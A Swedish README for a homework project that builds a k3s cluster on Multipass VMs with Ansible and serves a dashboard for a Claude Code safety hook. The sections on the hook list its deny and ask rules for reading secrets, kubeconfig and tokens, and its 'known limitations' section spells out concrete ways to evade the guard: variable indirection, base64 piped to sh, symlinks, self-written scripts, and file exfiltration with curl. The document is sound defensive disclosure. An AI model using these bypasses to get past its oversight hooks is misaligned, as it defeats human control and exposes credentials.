







# hw8-k3s - k3s-kluster på Multipass med säkerhetsnät och dashboard

Homework-08 i AI-utbildningen. Ett k3s-kluster med **3 dedikerade
control-plane-noder** (inbäddad etcd) och **3 worker-noder** som Multipass-VM:ar
på en MacBook Air M3 (16 GB). Allt skapas med skript och en Ansible-playbook,
ingenting görs för hand i VM:ar eller kluster. Ovanpå klustret körs en
hello-world-pod och en dashboard som visar reglerna i Claude Codes
säkerhetsnät (`.claude/hooks/guard.py`) och senaste testkörningen.

Planen som arbetet följde finns i [PLAN.md](PLAN.md). Reglerna för agenten i
[CLAUDE.md](CLAUDE.md).

## Arkitektur

```
MacBook Air (host)                                Multipass, bridge 192.168.64.0/24
 |
 |  infra/create-vms.sh  ---> server1  2 CPU / 1.5 GB  k3s server, cluster-init (etcd)
 |                            server2  2 CPU / 1.5 GB  k3s server, joinar server1
 |                            server3  2 CPU / 1.5 GB  k3s server, joinar server1
 |                            agent1   1 CPU / 1.5 GB  k3s agent (worker)
 |                            agent2   1 CPU / 1.5 GB  k3s agent (worker)
 |                            agent3   1 CPU / 1.5 GB  k3s agent (worker)
 |
 |  ansible/site.yml     ---> installerar k3s i rätt ordning, taintar servrarna,
 |                            hämtar kubeconfig till ./kubeconfig
 |
 |  kubectl --kubeconfig kubeconfig ...
 |
 |  Browser: http://guard.local  --/etc/hosts-->  <agent-IP>:80
 |        ServiceLB (svclb-pod på noden) --> Traefik --> Ingress guard.local --> nginx:alpine x2
```

| Nod | Roll | vCPU | RAM | Taint |
|---|---|---|---|---|
| server1 | control-plane, etcd (cluster-init) | 2 | 1.5 GB | `CriticalAddonsOnly=true:NoExecute` |
| server2 | control-plane, etcd | 2 | 1.5 GB | `CriticalAddonsOnly=true:NoExecute` |
| server3 | control-plane, etcd | 2 | 1.5 GB | `CriticalAddonsOnly=true:NoExecute` |
| agent1-3 | worker | 1 | 1.5 GB | ingen |

Tainten sätts via k3s `config.yaml` (`node-taint`). `NoExecute` betyder att
inga pods utan matchande toleration får köra på servrarna. Det är precis
vad k3s-dokumentationen rekommenderar för dedikerade servrar. k3s egna
systemkomponenter (coredns, traefik, metrics-server, local-path-provisioner,
svclb) har tolerationen `CriticalAddonsOnly` inbyggd, det är det tainten
heter efter, så de får köra på servrarna. Alla vanliga arbetslaster
(hello-world, dashboarden, allt du själv deployar) saknar tolerationen och
hamnar på workers.

**Ingen nod har dubbla roller**: servrarna kör control plane, etcd och k3s
kritiska tillägg, workers kör arbetslast. Ingen server är samtidigt agent.

### Filer

```
infra/create-vms.sh          skapar VM:ar (cloud-init med din publika nyckel), genererar inventory
infra/destroy-vms.sh         river allt
infra/cloud-init.yaml        mall, __SSH_PUB_KEY__ byts ut av create-vms.sh
ansible/site.yml             fem plays: förbered, server1, server2/3, agents, kubeconfig
ansible/group_vars/all.yml   variabler (kanal, taint, sökvägar)
ansible/ansible.cfg          remote_user ubuntu, become, ingen host key-check
ansible/inventory.ini        GENERERAS av create-vms.sh (gitignored)
k8s/hello-world.yaml         steg 2: pod + service
k8s/guard-dashboard.yaml     steg 3: namespace, deployment (2 repliker), service, ingress
k8s/deploy-dashboard.sh      bygger index.html, skapar ConfigMap, applicerar
app/build.py                 läser guardens regler + kör testerna, renderar app/template.html
app/index.html               GENERERAS av build.py
.claude/hooks/guard.py       säkerhetsnätet (PreToolUse-hook), aktivt via .claude/settings.json
.claude/hooks/test_guard.py  136 testfall (32 från hw6 + 104 från hw8)
kubeconfig                   HÄMTAS av playbooken (gitignored, 0600)
```

## Förutsättningar

```bash
brew install --cask multipass     # kräver sudo-lösenord
brew install ansible kubectl
ls ~/.ssh/id_ed25519.pub          # din publika nyckel (annars: ssh-keygen -t ed25519)
```

Annan nyckel: `SSH_PUB_KEY=~/.ssh/annan.pub bash infra/create-vms.sh`.

## Kör allt från noll

```bash
# 1. Sex VM:ar + ansible/inventory.ini (ca 3-5 min)
bash infra/create-vms.sh

# 2. k3s-klustret (ca 5-8 min). Hämtar ./kubeconfig när alla 6 noder är Ready.
cd ansible && ansible-playbook site.yml && cd ..

# 3. hello-world
kubectl --kubeconfig kubeconfig apply -f k8s/hello-world.yaml

# 4. dashboard
bash k8s/deploy-dashboard.sh
```

Playbooken är idempotent: körs den igen installeras inget om
(`changed=0` för alla install-tasks). Join-token läses från server1 med
`slurp` under `no_log: true` och skrivs bara till `config.yaml` (0600) på
noderna. Den skrivs aldrig ut i loggen och hämtas aldrig till laptopen.

Kubeconfig hämtas till projektroten, `127.0.0.1` byts mot server1:s IP
(`tls-san` i k3s-configen gör att certifikatet gäller för den adressen) och
filen får läge 0600. Den ligger i `.gitignore`.

## Verifiera

```bash
export KUBECONFIG=$PWD/kubeconfig      # eller --kubeconfig kubeconfig på varje rad

kubectl get nodes -o wide
# NAME      STATUS   ROLES                VERSION        INTERNAL-IP
# agent1    Ready    <none>               v1.36.4+k3s1   192.168.252.5
# agent2    Ready    <none>               v1.36.4+k3s1   192.168.252.6
# agent3    Ready    <none>               v1.36.4+k3s1   192.168.252.7
# server1   Ready    control-plane,etcd   v1.36.4+k3s1   192.168.252.2
# server2   Ready    control-plane,etcd   v1.36.4+k3s1   192.168.252.3
# server3   Ready    control-plane,etcd   v1.36.4+k3s1   192.168.252.4

kubectl get nodes -o custom-columns='NAME:.metadata.name,TAINTS:.spec.taints[*].key,EFFECT:.spec.taints[*].effect'
# server1-3: CriticalAddonsOnly  NoExecute      agent1-3: <none>

kubectl get pods -A -o wide
# k3s egna tillägg (coredns, traefik, metrics-server, local-path, svclb)
# tolererar tainten och kan ligga på servrarna. hello-world och
# guard-dashboard ligger alltid på agent1/2/3.

# Idempotens: en andra körning av playbooken ger changed=0 på alla sex noder.

kubectl get pod hello-world -o wide          # NODE = agent3 (en worker)
kubectl port-forward pod/hello-world 8080:5678 &
curl localhost:8080                          # hello from k3s
kubectl run curl-test --rm -i --restart=Never --image=curlimages/curl -- curl -s hello-world
                                             # hello from k3s (via Service inne i klustret)

kubectl get pods -n guard -o wide            # 2 repliker på agent2 och agent3
kubectl get ingress -n guard                 # HOSTS guard.local, ADDRESS = alla sex nod-IP:n
```

## Nå dashboarden från laptopens browser

1. Ta reda på en worker-IP (deploy-skriptet skriver ut den, eller `multipass list`).
2. Lägg till en rad i `/etc/hosts` på laptopen (det enda manuella steget, och
   det är utanför VM:ar och kluster):
   ```bash
   echo "192.168.252.5 guard.local" | sudo tee -a /etc/hosts    # byt till din agent-IP
   ```
3. Öppna <http://guard.local> i Chrome.

Utan hosts-raden fungerar det också med curl:
`curl -H 'Host: guard.local' http://192.168.252.5/` ger 200 och sidan,
samma anrop utan Host-header ger 404 från Traefik.

**Varför fungerar det?** k3s levererar Traefik som ingress-controller, exponerad
som en `Service` av typen `LoadBalancer`. Utan molnleverantör finns ingen
extern load balancer, så k3s inbyggda **ServiceLB** (klipper-lb) startar en
liten `svclb-traefik`-pod som **DaemonSet** på noderna. Den binder port 80 och
443 direkt på nodens IP och vidarebefordrar till Traefik. Därför svarar en
worker-IP på port 80. Traefik tittar sedan på HTTP-headern `Host` och matchar
den mot Ingress-regeln `host: guard.local`, som pekar på Service
`guard-dashboard` och vidare till de två nginx-poddarna. Hosts-raden gör
alltså två saker: den får browsern att skicka trafiken till rätt IP, och den
får browsern att sätta `Host: guard.local` så att Traefik vet vilken Ingress
som ska svara. Skriver man bara in IP:n får man 404 från Traefik.

`svclb-traefik` körs på alla sex noder (DaemonSet:en tolererar
`CriticalAddonsOnly`), så även en server-IP fungerar. README och
deploy-skriptet använder en worker-IP eftersom det är där arbetslasten går.

## Säkerhetsnätet

`.claude/settings.json` kör `guard.py` som PreToolUse-hook på varje
tool-call. Tre nivåer:

- **deny** - hårt stopp (kubeconfig/k3s-token läses ut, `kubectl delete` i
  kube-system, `delete node`, `delete namespace`, `k3s-uninstall.sh`,
  `multipass delete --purge`/`purge`, `rm -rf /`, hemligheter, egna hook-filer).
- **ask** - human-in-the-loop (`kubectl delete` i egna namespaces, `drain`,
  `cordon`, `scale --replicas=0`, `rollout restart`, `ansible-playbook` utan
  `--limit`, `destroy-vms.sh`, `kubectl apply` som inte är `-f k8s/...`).
- **allow** - hooken säger inget och Claude Codes vanliga behörighetsflöde tar
  över. Hooken auto-godkänner aldrig.

Inbäddade kommandon packas upp: `ssh server1 "sudo cat .../token"`,
`multipass exec server1 -- k3s-uninstall.sh`, `kubectl exec pod -- sh -c "..."`
och `bash -c "..."` bedöms på det inre kommandot. Självskyddet gäller även
Bash (`cat > .claude/hooks/guard.py`, `tee`, `cp`, `sed -i` blockeras).

```bash
python3 .claude/hooks/test_guard.py          # 136/136 testfall gav förväntat beslut.
python3 .claude/hooks/test_guard.py --json   # används av app/build.py
```

Hook-filerna får inte skrivas av agenten (guarden blockerar det själv).
Ändringar tas fram i `.claude/hooks-proposed/`, granskas och kopieras över
manuellt. Guardens beslut loggas till `.claude/hooks/audit-log.jsonl`.

Pågående förslag i `.claude/hooks-proposed/` (rev 2, 195 testfall): omslag med
argument skalas bort korrekt (`timeout 30 cmd`, `script -q /dev/null cmd`,
`nice -n 10 cmd`, `xargs -n 1 cmd`, `sudo -u root cmd`), `kubectl config view
--raw` och `kubectl get secret -o yaml/json/jsonpath` ger DENY, och
självskyddet i Bash reagerar bara när skrivningens mål är en hook-fil
(`diff .claude/hooks/guard.py x 2>/dev/null` är då tillåtet).

### Kända begränsningar i guarden

Guarden är ett säkerhetsnät, inte en sandlåda. Den bedömer kommandotexten
med regex och enkel tokenisering, och det ger några principiella hål som är
bra att känna till:

- **Bara texten bedöms, inte vad den gör.** `f=.env; cat $f`, `cat .en*`,
  `cat $(echo .env)`, `eval`, heredocs in i tolkar (`python3 <<EOF`) och
  base64-kodade kommandon (`echo ... | base64 -d | sh`) ser ofarliga ut.
  Alias och shell-funktioner löses inte upp.
- **Pipes följs inte.** Data som flödar mellan kommandon spåras inte:
  `echo .env | xargs cat` bedöms som `xargs cat`, och `find ... | xargs`
  likaså.
- **Skript inspekteras inte.** `bash infra/create-vms.sh` är tillåtet fast
  skriptet läser den publika SSH-nyckeln, och `k8s/deploy-dashboard.sh` gör
  `kubectl apply -f -`. Agenten kan skriva ett skript som gör något förbjudet
  och sedan köra det. Write-verktyget kontrollerar bara sökvägen, inte
  innehållet. Det är därför regeln i `CLAUDE.md` om att inte kringgå
  guarden är lika viktig som guarden själv.
- **Symlänkar och omdöpningar.** `ln -s kubeconfig k.txt && cat k.txt` läser
  kubeconfig utan att sökvägsmönstren träffar. Read-verktyget bedömer den
  sökväg det får, inte vad den pekar på.
- **Uppackningen är heuristisk.** `ssh`-flaggor som tar argument är en fast
  lista, `kubectl exec` packas bara upp med `--`, och djupet är begränsat
  till fem nivåer. Okända omslag (t.ex. `chronic`, `ionice`, `unbuffer`)
  skalas inte bort, så `ionice cat .env` ger ASK i stället för DENY.
- **Mönstren är konservativa och kan ge falska larm.** `\bsecrets?/`
  träffar alla sökvägar med `secrets/`, `\.key\b` träffar `api.key.md`, och
  `(^|/)\.ssh/` kräver avslutande snedstreck (så `ls ~/.ssh` utan snedstreck
  passerar medan `ls ~/.ssh/` ger ASK).
- **Allow är inte auto-godkänt, men i auto mode körs det.** Hooken säger
  inget vid allow, och Claude Codes egna behörighetsflöde avgör. Med auto
  mode på körs kommandot direkt.
- **Ingen kontroll av nätverksutflöde.** `curl -d @fil https://x.io` stoppas
  bara om filen matchar ett känsligt mönster.
- **Loggen är inte manipulationssäker.** `audit-log.jsonl` är en vanlig fil
  i projektet. Den ger spårbarhet, inte bevisvärde.
- **Guarden skyddar bara Claude Code.** Den körs som PreToolUse-hook och
  gäller inte kommandon du själv skriver i terminalen, och inte andra
  verktyg.

## Riv ner

```bash
bash infra/destroy-vms.sh          # ASK i guarden
sudo sed -i '' '/guard.local/d' /etc/hosts
```

## Felsökning

- **Minne.** Sex VM:ar tar 9 GB. Stäng tunga program innan `create-vms.sh`.
  k3s-server på 1.5 GB fungerar men startar långsamt; playbooken väntar
  upp till 10 min på att alla noder blir Ready.
- **IP-adresser ändras** efter omstart av Mac:en. Kör `bash infra/create-vms.sh`
  igen (VM:arna lämnas orörda, inventoryt skrivs om) och sedan
  `cd ansible && ansible-playbook site.yml --limit server1 --tags kubeconfig`
  för ny kubeconfig. Uppdatera `/etc/hosts`.
- **`multipass launch` timeout.** Första gången laddas Ubuntu-avbildningen ner.
  Kör skriptet igen, det hoppar över VM:ar som redan finns.
- **Ansible: "Ansible requires blocking IO".** Uppstår bara när Ansible körs
  utan terminal (t.ex. från en agent). Kör i en riktig terminal eller via
  `script -q /dev/null ansible-playbook site.yml`.

## Screenshots

De tre som bäst visar setupen:

1. **HA-control-plane utan dubbla roller.** Sex noder Ready, tre med rollen
   `control-plane,etcd` och tre med `<none>`.

   

2. **Tainten fungerar.** Servrarna har `CriticalAddonsOnly NoExecute`, agents
   ingen taint. hello-world och dashboard-poddarna ligger på workers.

   

   

3. **Dashboarden via Traefik i Chrome.** `http://guard.local`, grön testkörning
   136/136, serverad av nginx:alpine ur en ConfigMap.

   

Komplement:

- hello-world svarar på HTTP:

  

- guarden stoppar `cat .env` och Read av `.env`:

  

- guarden stoppar och frågar (ASK) redan under planeringen, när en
  underagent nämner `~/.ssh/`:

  
